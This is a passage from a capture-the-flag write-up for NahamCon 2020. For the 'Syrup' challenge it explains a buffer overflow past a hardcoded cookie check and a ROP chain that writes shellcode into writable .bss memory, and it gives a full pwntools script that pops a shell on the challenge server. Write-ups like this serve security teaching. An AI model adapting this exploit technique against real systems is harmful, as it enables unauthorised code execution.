With this, we can pop a shell and get our flag!

`flag{captain_of_the_rot13_ship}`

[shifts]:{{site.baseurl}}/ctf/nahamcon20/Shifts_Ahoy/shifts-ahoy
[shifts-exploit]:{{site.baseurl}}/ctf/nahamcon20/Shifts_Ahoy/exploit.py

# Syrup
> Can you pwn me?
> 
> Connect here:
>
> nc jh2i.com 50036 (Solves: 53, 100 pts)
>
> [syrup](syrup) [exploit.py](syrup-exploit)

This challenge was a very minimal binary with only 3 functions, `start`, `fn1` and `fn2`. For interaction with the user, direct syscalls were used instead of calling libc functions. The bug was yet again a buffer overflow, with certain checks in place that were similar to stack cookies. However, the value was hardcoded and thus we can just write the correct value in our buffer overflow payload. An interesting note is that binary ninja seemed to overlook this check in the MLIL and HLIL views, I'm not sure why.

![]({{site.baseurl}}/ctf/nahamcon20/Syrup/hlil.jpg)
<center><b>HLIL</b></center><br>

![]({{site.baseurl}}/ctf/nahamcon20/Syrup/llil.jpg)
<center><b>LLIL</b></center>

To exploit this, we can use ROP to set the value of `rbp` to `0x402000`(address of the RWX .bss section), and jump to address `0x040105d` in the middle of `fn1`, which allows us to write into `0x402000` with any input. We can write our shellcode there, and allow the ropchain to bring us to `0x402000`, popping our shell to get the flag.

{% highlight Python %}
import sys
from pwn import *

if args.REMOTE:
	r = remote("jh2i.com", 50036)
else:
	r = process("./syrup")
pause()

p = lambda x : p64(x).decode('Latin-1')
rop = 'A'*0x400
rop+= p(0xdead^0xbeef)*2 # stack cookie thing
rop+= p(0x0000000000401011) # pop rbp ; ret
rop+= p(0x402000) # RWX .bss section
rop+= p(0x040105d) # middle of fn1
rop+= p(0xdead^0xbeef)*2 # stack cookie thing
rop+= p(0x402000) # jump to our shellcode
r.sendafter("?", rop)

sleep(0.1)
context.arch = "amd64"
sc = asm(shellcraft.amd64.linux.sh())
r.send(sc)

r.interactive()
{% endhighlight %}
